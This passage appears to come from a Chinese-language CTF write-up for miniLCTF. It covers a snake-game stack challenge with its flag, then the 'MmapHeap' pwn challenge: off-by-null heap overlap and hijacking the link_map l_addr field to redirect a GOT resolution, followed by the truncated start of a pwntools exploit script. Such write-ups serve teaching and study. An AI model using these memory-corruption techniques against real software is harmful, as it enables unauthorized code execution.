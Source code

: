 可以看到返回地址就在右下角，其上是 stack canary。

合适的种子可以是 16183281，此时初始蛇身就是后门函数地址。接下来穿墙到达返回地址的位置按 Q 退出即可。记下拐弯时的坐标方便攻击远程环境。

```
miniLCTF{secret_destination_behind_walls}
```

## MmapHeap

本题的预期解是动态链接过程相关的利用。题目的堆分配器在 mmap 的内存上，和共享库和 ld 相邻。通过 off by null 可以溢出到下个 node，从而构造重叠堆。

libmylib 里有 2 个函数，`r_open`和`f_open`，后者是假的 open 函数。题目意思很明显是想让`f_open`实际调用到`r_open`，而 libmylib 里几乎没有可利用的地方，所以不可避免的会攻击 ld。

ld 相关的利用还挺多的，也很灵活，网上应该也有很多相关的文章。出题的思路在[这里](https://hackmd.io/@pepsipu/ry-SK44pt)，一道很有意思的题目，可以让你更加深入地了解动态链接，有兴趣可以尝试一下。这里的利用思路很简单，在任意地址分配后可以直接攻击 elf link_map。在第一次解析一个函数时会把解析到的地址放入 elf 的 GOT 表，而放入 GOT 表内的哪个位置由`l_addr`字段和该函数在 GOT 表中的偏移决定。通过给`l_addr`字段添加一个偏移可以控制解析到的地址覆盖到一个指定的位置。例如这里`r_open`和`f_open` GOT 表中的偏移为 8 字节，所以可以将`l_addr`的 LSB 设为 0x8，这样就可以实现`f_open`函数的劫持。由于自动补`\0`，有 1/16 的几率爆破成功。

> 实际解题发现不少人直接 leak elf base，然后 hijack GOT 了，还是限制太少了（笑

```python
#! /usr/bin/env python3
from pwn import *
from ctools import *

### CONFIG ========================================

context(os="linux", arch="amd64")

elf_path = './vuln'
libc_path = './libmylib.so'

config = {
    'host': '127.0.0.1',
    'port': 9999,
    'target': 'REMOTE',
    'args': [],
    'preload': [libc_path],
    'elf_path': elf_path,
    'libc_path': libc_path,
    'apath': '.',
}

TMUX_TERMINAL() # use tmux terminal
DEBUG = lambda s='', l=True, m=False: udebug(io, script=s, load=l, source=m)

cct(**config)
# cct.init()

### CONFIG END ===================================

io = conn()
# context.log_level = "debug"
 
elf = ELF(elf_path)
libc = ELF(libc_path)

def add(idx, size, pad):
    io.sendlineafter(b'option:', b'1')
    io.sendlineafter(b'idx', str(idx).encode())
    io.sendlineafter(b'size', str(size).encode())
    io.sendafter(b'data', pad)
    
def show(idx):
    io.sendlineafter(b'option:', b'4')
```